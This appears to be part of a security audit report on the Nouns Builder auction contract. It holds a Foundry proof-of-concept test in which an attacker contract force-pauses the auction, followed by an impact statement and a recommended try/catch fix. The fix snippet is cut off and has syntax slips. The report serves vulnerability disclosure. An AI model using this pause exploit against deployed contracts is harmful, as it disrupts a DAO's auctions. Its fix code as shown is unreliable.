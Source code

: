 ```solidity
        //Setting founder with high percentage ownership.
        setFounderParams(wallets, percents, vestingEnds);
        setMockTokenParams();
        setMockAuctionParams();
        setMockGovParams();
        deploy(foundersArr, tokenParams, auctionParams, govParams);
        setMockMetadata();
        // END OF SETUP

        // Start auction contract and do the first auction
        vm.prank(founder);
        auction.unpause();
        vm.prank(bidder1);
        auction.createBid{ value: 0.420 ether }(99);
        vm.prank(bidder2);
        auction.createBid{ value: 1 ether }(99);

        // Move block.timestamp so auction can end.
        vm.warp(10 minutes + 1 seconds);

        //Attacker calls the auction
        attacker.forcePause(address(auction));

        //Check that auction was paused.
        assertEq(auction.paused(), true);
    }
}
```

## Impact
Should the conditions mentioned above be met, an attacker can arbitrarily pause the auction contract, effectively interrupting the DAO auction process. This pause persists until owners takes subsequent actions to unpause the contract. The attacker can exploit this vulnerability repeatedly.
## Code Snippet

https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/auction/Auction.sol#L238-L241

https://github.com/sherlock-audit/2023-09-nounsbuilder/blob/main/nouns-protocol/src/auction/Auction.sol#L292-L329

## Tool used

Manual Review

## Recommendation
Consider better handling the possible errors from `Token.mint()`, like shown below:

```solidity
  function _createAuction() private returns (bool) {
      // Get the next token available for bidding
      try token.mint() returns (uint256 tokenId) {
          //CODE OMMITED
      } catch (bytes memory err) {
          // On production consider pre-calculating the hash values to save gas
          if (keccak256(abi.encodeWithSignature("NO_METADATA_GENERATED()")) == keccak256(err)) {
              _pause();
              return false
          } else if (keccak256(abi.encodeWithSignature("ALREADY_MINTED()") == keccak256(err)) {
              _pause();
              return false
          } else {
```